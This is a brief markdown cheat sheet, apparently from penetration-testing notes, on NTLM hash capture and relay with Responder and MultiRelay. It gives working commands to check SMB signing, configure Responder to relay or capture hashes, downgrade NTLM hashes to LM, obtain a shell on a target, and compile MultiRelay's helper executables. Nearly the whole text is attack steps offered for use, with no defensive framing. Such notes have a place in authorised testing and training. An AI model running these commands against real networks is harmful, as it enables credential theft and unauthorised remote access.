 #### Search for SMB signing
* `responder-RunFinger -i <target>`

#### Responder 
* change `/etc/responder/Responder.conf` - relay the hash
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm> <-dwPv>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
#### Getting shell
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

> [!Important]
To keep `SMB` and `HTTP` On in responder.conf - capture the hashes
1. Run responder until hashes is received and close
2. Run Multirelay
3. While MultiRelay is running, run again responder

Meterpreter shell:
* see Metasploit.md from this section
